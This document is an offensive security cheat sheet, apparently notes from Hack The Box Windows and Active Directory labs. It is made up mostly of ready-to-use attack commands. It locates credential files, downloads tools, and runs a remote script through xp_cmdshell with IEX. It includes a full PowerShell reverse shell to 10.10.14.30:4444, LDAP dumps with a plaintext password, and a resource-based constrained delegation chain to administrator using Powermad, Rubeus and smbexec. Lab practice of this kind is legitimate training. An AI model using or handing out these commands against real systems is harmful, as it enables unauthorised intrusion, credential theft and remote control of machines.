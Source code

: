### File and directory
#### ssh key location
`file:///C:/Users/user/.ssh/id_rsa`
#### File may contain password information
`C:\Users\user\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine
 ConsoleHost_history.txt`


### Command
#### Download file in powershell
```powershell
IWR -useBasicParsing http://10.10.14.21:8000/nc.exe -o nc.exe
```
```powershell
wget http://10.10.14.30/winpeasx64.exe -outfile winpeasx64.exe
```

#### Execute command from remote file
```powershell
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.30/shell.ps1\");"
```

#### Perpare reverse shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.30",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### LDAP
- #### Test connection
    ```bash
    ldapdomaindump -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' dc.support.htb
    ```
- #### Dump data
    ```bash
    ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
    ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
    ```

### Windows AD evaluation
- #### Evil-WinRM
    - Source:  https://github.com/Hackplayers/evil-winrm
    - Try to access Microsoft Windows Servers with cred
    - Usage:
        ```bash
        evil-winrm -i ip -u user -p password # Login
        upload /usr/share/metasploit-framework/data/post/SharpHound.exe sh.exe # file upload
        ```
    - Add admin account
        Refer from https://cybergladius.com/htb-walkthrough-support/ 
        ```bash
        # Windows side
        upload /tmp/Powermad.ps1 Powermad.ps1
        upload /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 PowerView.ps1
        Import-Module .\Powermad.ps1
        Import-Module .\PowerView.ps1
        New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
        Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount fake01$
        ./rubeus.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
        
        # Kali side
        getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
        export KRB5CCNAME=administrator.ccache
        smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
        ```
